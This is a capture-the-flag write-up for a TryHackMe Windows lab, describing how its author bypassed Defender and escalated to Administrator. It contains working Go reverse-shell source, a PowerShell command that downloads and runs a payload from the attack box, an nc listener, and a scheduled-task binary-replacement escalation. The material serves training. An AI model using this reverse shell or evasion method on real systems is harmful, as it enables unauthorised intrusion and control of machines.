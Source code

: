 # Stealth

https://tryhackme.com/room/stealth, rated MEDIUM

Another fun Windows room, coming on the heels of [AVenger](https://tryhackme.com/room/avenger) in the release pipeline. There were some similarities in how I solved it, specifically around bypassing AV.

1. A scan will reveal standard windows ports, but also websites on **8000**, **8080** and **8443**. On the first is a blank page, but the latter two contain a "PowerShell Script Analyser"

2. This allows you to upload a script (a PowerShell ps1 file) and then will run it if its not picked up by defender. Trying with a standard PowerShell reverse shell payload will fail, but simple PowerShell commands work fine.

3. There are ways to obfuscate PowerShell to get around this, but I used a simple two file approach:

   - First, Golang binaries are generally ignored by defender so I created a new reverse shell using the following code:
      ```go
      package main

      import (
      	"net"
      	"os/exec"
      )
      
      func main() {
      	c, _ := net.Dial("tcp", "10.10.224.216:5555")
      	cmd := exec.Command("cmd")
      	cmd.Stdin = c
      	cmd.Stdout = c
      	cmd.Stderr = c
      	cmd.Run()
      }
      ```
      This was compiled with `go build r.go` on my windows box, but `GOOS=windows GOARCH=amd64 go build r.go` would also work on linux.

    - A webserver was started on the attack box to serve this new `r.exe` binary. Additionally a rev shell handler was started with `nc -nvlp 5555`
    - Finally, the following powershell script was created and uploaded to the site:
      ```powershell
      invoke-webrequest -uri http://10.10.224.216:1234/r.exe -outfile c:\windows\temp\r.exe
      c:\windows\temp\r.exe
      ```
      After being processed, this successfully created a rev shell as 'evader'

4. Privesc to SYSTEM was a little harder, this being a patched, modern OS. However a bit of manual enumeration identified the path forward. Process followed is below:

    - First I checked privileges and groups. UAC was active but the user might have been able to bypass it, however Fodhelper didn't work so for now I moved on
    - I tried checking services with `net start` but I had no privileges to do this
    - I checked scheduled tasks next, using powershell, with `get-scheduledtask`
    - This final command revealed a very suspiciously named '**MyTHMTask**'. Enumerating that with `(Get-ScheduledTask -TaskName "MyTHMTask").Actions` showed it would invoke `C:\xampp\DebugCrashTHM.exe`
    - I tried starting and stopping the task with `start-scheduledtask MyTHMTask` and `stop-scheduledtask MyTHMTask` and verified I had control
    - Lastly, I tried moving the `DebugCrashTHM.exe` and found I had write access
  
5. To exploit this was simple. I started another rev shell catcher on the attack box, then used `copy c:\windows\temp\r.exe C:\xampp\DebugCrashTHM.exe` before starting the task. This got a rev shell as the local Administrator account.

Both flags were on the administrator's desktop. The user flag is designed to be extracted via accessing a page on port :8000 after manipulating a log file, but can equally be extracted by examining the PHP code in the flag folder on the admin's desktop.
